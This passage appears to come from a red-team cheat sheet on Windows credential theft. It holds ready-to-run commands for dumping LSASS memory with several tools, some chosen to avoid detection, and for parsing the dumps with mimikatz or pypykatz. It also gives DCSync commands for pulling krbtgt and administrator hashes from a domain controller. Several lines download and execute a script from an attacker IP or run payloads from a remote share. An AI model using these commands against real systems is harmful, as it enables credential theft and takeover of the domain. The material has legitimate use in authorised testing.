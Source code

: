                 //Workaround w/ mimilib.dll - can still log creds when users login - https://medium.com/red-teaming-with-a-blue-team-mentality/poking-around-with-2-lsass-protection-options-880590a72b1a

    //Option 2: Memory Dump Lsass & Process Credentials Offline:
        //memory dump of LSASS - better for avoiding detection by not uploading mimikatz
            //*must process on machine of same OS and architecture
        //Option 1 - Task Manager (requires GUI access): right click, create dump file
        //Option 2 - procdump (could be detected):
            procdump -ma lsass.exe lsass.dmp
        //Option 3 - Out-Minidump.ps1:
            //might require mimidrv.sys mitigation (if getting error message)
            Import-Module .\Out-Minidump.ps1; Get-Process lsass | Out-Minidump
            //IEX(New-Object Net.Webclient).DownloadString('http://192.168.45.215/Out-Minidump.ps1')
                    //add to bottom:  Get-Process lsass | Out-Minidump
        //Option 4 - Dumpert DLL:
            //writes file to c:\Windows\Temp
            rundll32.exe \\192.168.45.215\visualstudio\Dumpert\Dumpert-DLL\x64\Release\Outflank-Dumpert-DLL.dll,Dump
            //Or:  \\192.168.45.215\visualstudio\Dumpert\Dumpert\x64\Release\Outflank-Dumpert.exe
        //Option 5 - MiniDumpWriteDump:
            //still require mimidrv.sys mitigation (if getting error message)
            //Basic (writes file to c:\windows\tasks):  \\192.168.45.215\visualstudio\MiniDumpWriteDump\MiniDumpWriteDump\bin\x64\Release\MiniDumpWriteDump.exe
            //SafetyDump (outputs b64-encoded lsass dump; can also dump other processes):
                \\192.168.45.215\visualstudio\MiniDumpWriteDump\SafetyDump\bin\x64\Release\SafetyDump.exe > c:\windows\tasks\64.txt
                certutil -decode c:\windows\tasks\64.txt c:\windows\tasks\lsa.txt
            //EncryptedDump (writes encrypted dmp to cwd; decrypt w/ python3 decrypt.py)
                \\192.168.45.215\visualstudio\MiniDumpWriteDump\x64\Release\EncryptedDump.exe
        //*Option 6 (Remotely) - lsassy:
            //can automatically take care of minidrv.sys error
            lsassy [-d domain] -u pixis -p P4ssw0rd targets
            lsassy [-d domain] -u pixis -H [LM:]NT targets
        **Run Mimikatz against dump:
            mimikatz.exe
            sekurlsa::minidump c:\windows\tasks\lsa.txt
            sekurlsa::logonpasswords
        **Or Pypykatz to parse on Kali:
            pypykatz lsa minidump /tmp/lsa/lsa.txt

#### Domain Controller

    //DCSync:
        //dump any user's hash - requires LDAP access to DC
        //PowerShell:
            Invoke-Mimikatz -Command '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt" "exit"'
            Invoke-Mimikatz -Command '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\administrator" "exit"'
            Invoke-DCSync -GetComputers -Domain megacorp.local -DomainController DC1.megacorp.local
        //**Meterpreter:
            load kiwi
            kiwi_cmd "lsadump::dcsync /domain:tricky.com /user:tricky\administrator"
        //Linux:
            //creds: secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt'
            //kerb:  secretsdump.py DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
